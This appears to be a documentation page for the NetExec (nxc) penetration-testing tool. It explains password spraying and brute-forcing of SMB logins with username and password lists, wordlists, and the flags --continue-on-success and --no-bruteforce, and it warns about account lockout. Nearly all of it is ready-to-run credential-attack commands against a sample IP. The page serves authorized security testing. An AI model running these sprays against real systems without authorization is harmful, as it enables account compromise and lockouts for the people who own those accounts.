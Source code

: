```yaml
---
description: Using NetExec for password spraying
---
```


# Password spraying

### Using Username/Password Lists

You can use multiple usernames or passwords by seperating the names/passwords with a space.

```
#~ nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18
#~ nxc smb 192.168.1.101 -u user1 -p password1 password2 password3
```

nxc accepts txt files of usernames and passwords. One user/password per line. Watch out for account lockout!

```
#~ nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
#~ nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

{% hint style="warning" %}
By default nxc will exit after a successful login is found. Using the **--continue-on-success** flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list Usage example:
{% endhint %}

```
#~ nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```

### Checking login == password using wordlist

```
#~ nxc smb 192.168.1.101 -u user.txt -p user.txt
```

### Checking multiple usernames/passwords using worlist

```
#~ nxc smb 192.168.1.101 -u user.txt -p password.txt
```

The result will be:

* user1 => password1
* user1 => password2
* user2 => password1
* user2 => password2

{% hint style="danger" %}
Be careful to not lock accounts using this technique
{% endhint %}

### Checking one login equal one password using wordlist

{% hint style="success" %}
No bruteforce possible with this one as 1 user = 1 password
{% endhint %}

```
#~ nxc smb 192.168.1.101 -u user.txt -p password.txt --no-bruteforce --continue-on-succes
```

The result will be:

* user1 => password1
* user2 => password2

{% hint style="danger" %}
Avoid range or a list of IP when using option --no-bruteforce
{% endhint %}
